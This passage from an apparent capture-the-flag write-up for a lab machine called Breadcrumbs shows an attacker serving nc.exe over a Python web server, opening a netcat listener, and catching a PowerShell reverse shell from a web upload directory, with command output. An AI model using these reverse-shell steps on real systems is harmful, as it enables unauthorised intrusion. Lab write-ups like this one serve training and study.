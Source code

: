 [![upload_nc.png](/img/breadcrumbs/upload_nc.png)](/img/breadcrumbs/upload_nc.png)

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.175.242 - - [17/Jul/2021 10:19:13] "GET /nc.exe HTTP/1.1" 200 -
```

With netcat uploaded we can now send a reverse shell back to us. First we set up a listener.

```
$ sudo rlwrap  nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Then we send us a powershell shell back with netcat to our listener.

[![get_shell.png](/img/breadcrumbs/get_shell.png)](/img/breadcrumbs/get_shell.png)

```
$ sudo rlwrap  nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.175.242.
Ncat: Connection from 10.129.175.242:53832.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

whoami
whoami
breadcrumbs\www-data
PS C:\Users\www-data\Desktop\xampp\htdocs\portal\uploads>
```
